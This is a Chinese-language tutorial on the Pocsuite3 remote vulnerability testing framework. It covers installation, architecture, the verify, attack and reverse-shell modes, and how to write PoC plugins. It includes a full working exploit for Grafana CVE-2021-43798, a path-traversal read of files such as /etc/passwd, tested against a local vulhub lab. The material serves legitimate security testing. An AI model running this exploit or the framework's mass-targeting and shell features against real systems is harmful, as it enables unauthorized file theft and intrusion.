

#Pocsuite3

#1、简介
Pocsuite3 是由知道创宇 404 实验室打造的一款基于 GPLv2 许可证开源的远程漏洞测试框架，自 2015 年开源以来，知道创宇安全研究团队持续维护至今，不断更新迭代。

一些特性:

* 支持 verify、attack、shell 三种模式，不仅为扫描而生，也可用于其他场景，比如漏洞 exploit、获取目标的交互式 shell
* 集成了 ZoomEye、Shodan 等常见网络空间搜索引擎，方便资产导入
* CEye、Interactsh 等 DNSLog 工具集成，辅助无回显漏洞验证
* 插件系统，用户可自定义 TARGETS、POCS、RESULTS 类型插件，可拓展性强
* 网络库（urllib3、requests）的 hook，方便 PoC 编写及全局控制
* 支持 IPv4/IPv6
* 全局 HTTP/HTTPS/SOCKS 代理支持

# 2、安装

Pocsuite3 基于 Python3 开发，可以运行在支持 Python 3.7+ 的任何平台上，例如 Linux、Windows、MacOS、BSD 等。

2021 年 11月，Pocsuite3 通过了 Debian 官方的代码及合规检查，正式加入 Debian、Ubuntu、Kali 等 Linux 发行版的软件仓库，可以通过 apt 命令一键获取。此外，Pocsuite3 也已经推送到 Python PyPi、MacOS 的 Homebrew 仓库、Archlinux 的 Aur 仓库、Dockerhub。

使用 Python3 pip 安装
```shell
pip3 install pocsuite3

# 使用国内镜像加速
pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple pocsuite3
```
# 3、架构简析
为了使用的更加丝滑，有必要了解下框架的架构。整体而言，本框架主要包含四个部分，分别是目标收集、PoC 插件加载、多线程检测、结果汇总。如下图所示：

##3.1 目标收集
首先来看一下目标收集，目前支持以下方式：

    -u 指定单个 URL 或者 CIDR，支持 IPv4 / IPv6。使用 -p 参数可以提供额外的端口，配合 CIDR 可以很方便的探测一个目标网段
    -f 指定一个文件，将多个 URL/CIDR 存到文件中，每行一个
    --dork，框架集成了 ZoomEye、Shodan 等常见网络空间搜索引擎，只需要使用相应的参数提供搜索关键词和 API-KEY 即可自动导入目标。值得一提的是，用户也可以将搜索关键词放到 PoC 插件的 dork 属性中
    --plugins 调用插件加载目标，比如 target_from_redis。用户也可以自定义 TARGETS 类型插件
##3.2 PoC 插件加载
    -r 选项支持指定一个或多个 PoC 路径（或目录），如果提供的是目录，框架将遍历目录然后加载所有符合条件的 PoC，用户可以用 -k 选项指定关键词对 PoC 进行筛选，如组件名称、CVE编号等。如果我们确认了目标组件，就可以用 -k 选项找到所以对应的 PoC 对目标进行批量测试。如果只提供了 -k 选项，-r 默认为 Pocsuite3 自带的 pocsuite3/pocs 目录
    --plugins 调用插件加载 PoC，比如 poc_from_seebug、poc_from_redis。用户也可以自定义 POCS 类型插件
##3.3 多线程检测
    当用户指定了目标和 PoC 后，框架会将每个目标和 PoC 进行匹配（笛卡尔积），生成一个元素为 (target, poc_module) 的队列，然后起一个默认大小为 150（可通过 --threads 设置） 的线程池处理这个队列。
    在 Pocsuite3 中，PoC 插件有三种运行模式，分别对应 PoC 插件中定义的三种方法，可使用命令行参数 --verify、--attack、--shell 决定执行哪种方法，如果不指定，默认是 --verify。
    线程要做的就是以 target 为参数初始化 PoC 插件并执行指定方法，然后获取执行结果。

##3.4 结果汇总
上一步获取了执行结果后，框架提供了多种方法对结果进行处理并保存：

    控制台日志，-v 参数控制日志级别，--ppt 参数可以对 IP 地址马赛克处理，方便录屏
    -o 参数将运行结果保存为 JSON Lines 格式的文件
    --plugins 调用插件对结果进行处理，比如：file_record，html_report。用户也可以自定义 RESULTS 类型插件
    

#4 运行
Pocsuite3 有三种运行方法，1、命令行；2、交互式控制台；3、集成调用。

##4.1 命令行
直接运行 pocsuite 命令，并使用对应参数指定待测试的目标和 PoC。

##4.2 交互式控制台
类似 Metasploit 的控制台，使用 poc-console 命令进入。

4.3 集成调用
当成一个模块来使用。

#5 如何编写 PoC
框架只是躯壳，PoC 才是灵魂。这里以几种常见的漏洞类型为例，说明如何基于 Pocsuite3 框架快速开发 PoC。

Pocsuite3 可以通过 -n 或 --new 参数自动生成 PoC 模版。
##5.1 PoC 插件的三种模式
* 1、verify 模式，验证漏洞存在。验证方式取决于具体的漏洞类型，比如检查目标的软件版本、判断某个关键 API 的状态码或返回、读取特定文件、执行一个命令并获取结果，结合 DNSLog 带外回显等。该模式用于批量漏洞排查，一般不需要用户提供额外参数 ，且应尽可能对目标无害。

* 2、attack 模式，攻击模式，可实现某种特定需求。比如获取特定数据、写入一句话并返回 shell 地址、从命令行参数获取命令并执行、从命令行参数获取文件路径并返回文件内容等。

* 3、shell 模式，获取交互式 shell，此模式下会默认监听本机的 6666 端口（可通过 --lhost、--lport 参数修改），编写对应的代码，让目标执行反连 Payload 反向连接到设定的 IP 和端口即可得到一个 shell。反连 Payload 可参考：GTFOBins Reverse shell。

在 PoC 插件中，attack 模式和 shell 模式的实现是可选的。
##5.2 PoC 插件基类
为了简化 PoC 插件的编写，Pocsuite3 实现了 PoC 基类：POCBase，很多共用的代码片段都可以放到此基类中。我们编写 PoC 时，只需要继承该基类就可，比较常用的属性和方法如下：
```python
常用属性：

self.url  # 目标 url
self.scheme  # 目标 url 的协议
self.rhost  # 目标 url 的主机名
self.rport  # 目标 url 的端口
self.host_ip  # 本机的 wan 口 ip

常用方法：

self._check()  # 端口开放检查、http/https 协议自动纠正、dork 检查、蜜罐检查
self.get_option('key')  # 获取命令行参数 --key 的值
self.parse_output({})  # 返回结果的方法，参数是一个字典
```

##5.3 Grafana 未授权任意文件读取漏洞（CVE-2021-43798）
Grafana 是一个跨平台、开源的数据可视化网络应用程序平台。Grafana v8.0.0-beta1 到 v8.3.0 存在未授权任意文件读取漏洞。

生成模版：
```shell
→pocsuite --new
...
-----
Seebug ssvid (eg, 99335) [0]: 99398
PoC author (eg, Seebug) []: Seebug
Vulnerability disclosure date (eg, 2021-8-18) [2022-07-11]: 2021-12-07
Advisory URL (eg, https://www.seebug.org/vuldb/ssvid-99335) [https://www.seebug.org/vuldb/ssvid-99398]:
Vulnerability CVE number (eg, CVE-2021-22123) []: CVE-2021-43798
Vendor name (eg, Fortinet) []:
Product or component name (eg, FortiWeb) []: Grafana
Affected version (eg, <=6.4.0) []: <=8.3.0
Vendor homepage (eg, https://www.fortinet.com) []: https://grafana.com

0    Arbitrary File Read
1    Code Execution
2    Command Execution
3    Denial Of service
4    Information Disclosure
5    Login Bypass
6    Path Traversal
7    SQL Injection
8    SSRF
9    XSS

Vulnerability type, choose from above or provide (eg, 3) []: 0
Authentication Required (eg, yes) [no]: no
...
```
根据公开的漏洞细节，修改 _exploit 方法：
```python
     def _exploit(self, param=''):
-        if not self._check(dork=''):
+        if not self._check(dork='Grafana', allow_redirects=True):
             return False

-        headers = {'Content-Type': 'application/x-www-form-urlencoded'}
-        payload = 'a=b'
-        res = requests.post(self.url, headers=headers, data=payload)
+        res = requests.get(f'{self.url}/public/plugins/grafana/../../../../../../../..{param}')
         logger.debug(res.text)
         return res.text
```
搭建靶场：

    https://github.com/vulhub/vulhub/tree/master/grafana/CVE-2021-43798
    docker-compose up -d

verify 模式效果：
```shell
pocsuite -r 20220805_grafana_arbitray_file_read.py -u http://127.0.0.1:3000 
```
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pocsuite3.api import (
    minimum_version_required, POCBase, register_poc, requests, logger,
    OptString, OrderedDict,
    random_str,
)

minimum_version_required('1.9.7')


class DemoPOC(POCBase):
    vulID = '0'
    version = '1'
    author = 'test'
    vulDate = '2022-08-05'
    createDate = '2022-08-05'
    updateDate = '2022-08-05'
    references = []
    name = 'Grafana Arbitray File Read'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = 'Arbitrary File Read'
    desc = 'Vulnerability description'
    samples = ['']
    install_requires = ['']
    pocDesc = 'User manual of poc'
    dork = {'zoomeye': ''}
    suricata_request = ''
    suricata_response = ''

    def _options(self):
        o = OrderedDict()
        o['filepath'] = OptString('/etc/passwd', description='The full path to the file to read')
        return o

    def _exploit(self, param=''):
        if not self._check(dork='Grafana',allow_redirects=True):
            return False

        # headers = {'Content-Type': 'application/x-www-form-urlencoded'}
        # payload = 'a=b'
        # res = requests.post(self.url, headers=headers, data=payload)
        res = requests.get(f'{self.url}/public/plugins/grafana/../../../../../../../..{param}')
        logger.debug(res.text)
        return res.text

    def _verify(self):
        result = {}
        param = '/etc/passwd'
        res = self._exploit(param)
        if res and ':/bin/' in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _attack(self):
        result = {}
        param = self.get_option('filepath')
        res = self._exploit(param)
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _shell(self):
        return self._verify()


register_poc(DemoPOC)

```

追加 -o a.json 参数可以把结果保存为 JSON Lines 格式的文件。

